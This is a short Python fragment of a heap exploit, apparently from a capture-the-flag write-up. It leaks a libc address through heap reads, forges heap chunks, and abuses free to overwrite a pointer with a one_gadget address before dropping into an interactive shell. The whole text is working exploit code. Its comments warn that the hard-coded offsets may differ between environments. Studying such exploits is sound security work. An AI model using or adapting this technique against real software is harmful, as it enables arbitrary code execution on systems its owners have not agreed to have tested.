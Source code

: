 ```python

# Leak Libc via Heap
_write(0, p64(pie_addr + 0x3fb0))
libc_addr = _leak(0) - 0x84130 # Heap relative address, may be different in your env
print "libc Address: " + hex(libc_addr)

# Use free to overwrite pointer to one_gadget
arb_free = lambda addr: _free(addr - mmap_addr)
_write(0x1000, p64(0)+p64(0x21))
_write(0x1020, p64(0)+p64(0x21))
_free(0x1000 + 0x10)
_write(0x1000, p64(libc_addr + 0xf02a4) * 8) # one_gadget, may be different in your env
arb_free(heap_addr + 0x10)

print hex(libc_addr + 0x45390)

p.interactive()
```
